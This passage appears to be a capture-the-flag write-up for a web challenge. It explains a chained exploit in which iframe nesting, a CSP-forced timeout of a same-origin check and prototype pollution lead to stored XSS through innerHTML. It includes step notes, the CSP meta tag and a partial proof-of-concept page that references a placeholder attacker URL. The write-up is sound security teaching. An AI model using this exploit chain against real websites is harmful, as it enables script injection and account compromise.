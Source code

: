 ```
- embed the viewer page in an iframe so that we can control the nested iframe

- set the url to a page with 2 iframes to set the initial length of ads to 2

- the viewer will read the length = 2 and then clear both of those frames

- there is a csp that stops the navigation from going to /blocked.html - this means that the sameOriginCheck will timeout

- during this timeout, navigate the parent of the 2 iframes to point to the import-history page, which has a prototype pollution vulnerability

- as the viewer and the index page are same origin, the viewer can access the prototype polluted variables, and contentWindow[1] can be polluted (as it doesnt exist, there isnt an iframe) to an object storing any length we want

- the length is saved to localStorage, which is inserted directly into innerHTML
```

Recall that the `sameOriginCheck` from before always tries to read some cross-origin property until it doesn't error out. While it's doing this, the `clearFrame` function is stuck and it doesn't clear any other frames. This solution worked by prolonging the `clearFrame` function long enough to remove the frames (so the pollution could take place) by adding a CSP to make sure that the frame was **never** same-origin with the parent.

This CSP worked as a reference:

```html
<meta http-equiv="Content-Security-Policy" content="frame-src 'none';">
```

> Can you think of some other ways to solve this challenge? For example, there was another way that involved sandboxing the navigated iframe so that the `sameOriginCheck` would fail (sandboxed iframes are from a special origin that isn't same-origin with anything by default)!

Here's a POC:

```html
<!-- a.html -->

<iframe id=embedded></iframe>
<script>
const sleep = d => new Promise(r => setTimeout(r, d));
const main = async () => {
    SERVER = "http://127.0.0.1:1111"
    ATTACKER = "http://<you>/b.html"
    embedded.src = `${SERVER}/${encodeURIComponent(ATTACKER)}`;
    await sleep(3500);
    location = SERVER;
}
main();
</script>
```

